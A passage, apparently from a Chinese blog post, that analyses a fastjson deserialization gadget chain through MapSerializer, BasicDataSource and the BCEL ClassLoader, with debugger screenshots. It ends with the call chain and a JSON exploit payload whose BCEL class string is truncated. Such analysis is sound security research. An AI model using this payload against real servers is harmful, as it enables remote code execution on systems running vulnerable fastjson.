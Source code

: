 跟进这个JSONSerializer.write

有没有很像JSON.toJSON？一样的流程

但是并没有走进创建ASM字节码的分支，而是由于我们传入JSONObject继承自Map，所以使用了MapSerializer

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241007143851229.png)

调用write方法就走进了MapSerializer.write

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241007144328539.png)

里面循环解析JSONObject的键值对，而且取出了value，如果这里value是BasicDataSource的话，就会类似JSON.toJSON那样，创建ASM字节码并调用getter

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241007144544248.png)

> 创建ASM字节码并调用getter请见字节码提取的fastjson流程分析：
>
> https://godownio.github.io/2024/10/06/fastjson-liu-cheng-fen-xi-bu-han-poc/#toJSON%E8%A7%A6%E5%8F%91getter

跟进到getObjectWriter也可以确证

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241007144755985.png)

所以用JSONObject嵌套一个键为JSONObject的json，这个键再嵌套一个值为BasicDataSource的json，即可调用BasicDataSource.getConnection

就能和getConntect连起来了



> 这里我调试发现，是以栈的形式触发toString，从里到外，也就是说先BasicDataSource.toString，再JSONObject.toString。虽然并不重要

利用链：

```xml
JSON.parse ->
DefaultJSONParser.parseObject ->
JSONObject.toString -> toJSONString
MapSerializer.write ->
ASMSerializer_1_xxx字节码.write ->
BasicDataSource.getConnect ->
BasicDataSource.createDataSource ->
BasicDataSource.createConnectionFactory ->
com.sun.org.apache.bcel.internal.utilClassLoader.loadClass
```

```json
{
    {
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$..."
        }
    }: "x"
}
```
